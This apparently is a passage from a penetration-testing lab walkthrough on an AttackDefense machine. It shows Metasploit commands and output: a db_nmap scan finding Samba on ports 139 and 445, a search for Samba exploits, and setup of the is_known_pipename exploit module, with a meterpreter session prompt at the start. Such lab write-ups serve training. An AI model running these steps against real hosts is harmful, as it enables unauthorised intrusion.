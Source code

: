 ```
sessions 4
meterpreter > 
```

# 复现视频内容
```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.153.226.2  netmask 255.255.255.0  broadcast 192.153.226.255
        ether 02:42:c0:99:e2:02  txqueuelen 0  (Ethernet)
```

Target IP Address: 192.153.226.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > workspace -a hashdump
[*] Added workspace: hashdump
[*] Workspace: hashdump
msf5 > setg RHOSTS 192.153.226.3
RHOSTS => 192.153.226.3
msf5 > db_nmap -sV 192.153.226.3
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-03-17 13:01 UTC
[*] Nmap: Nmap scan report for target-1 (192.153.226.3)
[*] Nmap: Host is up (0.000010s latency).
[*] Nmap: Not shown: 998 closed ports
[*] Nmap: PORT    STATE SERVICE     VERSION
[*] Nmap: 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: MAC Address: 02:42:C0:99:E2:03 (Unknown)
[*] Nmap: Service Info: Host: VICTIM-1
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.55 seconds
```

```
msf5 > search samba type:exploit

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   3   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
```

```
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.153.226.3    yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory

```